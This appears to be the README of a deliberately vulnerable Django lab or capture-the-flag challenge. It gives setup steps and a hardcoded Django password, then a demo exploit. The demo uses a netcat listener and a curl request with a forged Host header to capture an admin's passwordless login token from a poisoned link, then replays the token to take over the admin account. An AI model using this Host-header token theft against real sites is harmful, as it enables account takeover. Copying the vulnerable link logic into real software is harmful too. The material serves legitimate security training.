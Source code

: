 # Install

## External requirements

- a working mail server, and a correct django configuration
- for dev, it's an sqlite database, django support other backend
- Flag is configurable on settings.py
- Special group is configurable on settings.py

## Build

```
docker compose build
docker compose up -d
```

## Init

```
docker compose exec python ./manage.py migrate
docker compose exec python ./manage.py createsuperuser
```

Login to admin
- Create a special group, the name should be the one configured in settings.py
- Create at least one user and add it in the group
- Optionaly create a few user (normal, and staff) (locahost:8001/admin), add first_name, last_name and email

Then logout from the admin. (This is important, if not, you will be loggin on the wepapp as superadmin)

PASSWORD DJANGO
RGdadGGUQmuoCfGUX^ktU&voyuHhsy3!

## Demo Exploit

Launch a nc listner
```
nc -l -p 8082
```
Get a victim on the user directory page (http://localhost:8001/userdir)
Ask for a no pass login token, with and evil host and the victim mail
```
curl -H "Host: localhost:8002" http://localhost:8001/nopasslogin\?email\=special1@email.host
```

Wait for the admin to click on the no login link, and get the token, you will receive some data on the netcat shell, for exemple:
```
GET /nopasslogin?auth=YWRtaW5AYWRtaW4uaG9zdDoxcUJzeHM6ajRRcjliNkc2Z1BmRmNQRXVpVDkzQkItNzI4dVFSOG9TU0J4Z2k0MzhxVQ== HTTP/1.1
Host: localhost:8002
Connection: keep-alive
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) QtWebEngine/5.15.8 Chrome/87.0.4280.144 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Language: en-US,en;q=0.9
DNT: 1
Sec-Fetch-Site: same-site
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Cookie: search_parameters=%7B%22addresses%22%3A%22on%22%2C%22subnets%22%3A%22on%22%2C%22vlans%22%3A%22on%22%2C%22vrf%22%3A%22off%22%2C%22pstn%22%3A%22off%22%2C%22circuits%22%3A%22on%22%2C%22customers%22%3A%22off%22%7D; expandfolders=0; sstr=%7C18486%7C; csrftoken=sJzEIZxD90nlUl1a8CzCLVWwdZPru2qn
```

Now, you can use the auth param, with the correct host to login as the admin user, go to:
`http://localhost:8001/nopasslogin?auth=YWRtaW5AYWRtaW4uaG9zdDoxcUJzeHM6ajRRcjliNkc2Z1BmRmNQRXVpVDkzQkItNzI4dVFSOG9TU0J4Z2k0MzhxVQ==`

# Note

Any user in the special group will automaticly click on the link, you should ensure that the django code can reach the controlled target (in a docker, the localhost:8002 will not work)

For now, as a poc (/TODO):
- login and logout views are not handled correctly, login is accessible when you're already logged in for exemple
- dev deps are installed in the docker image
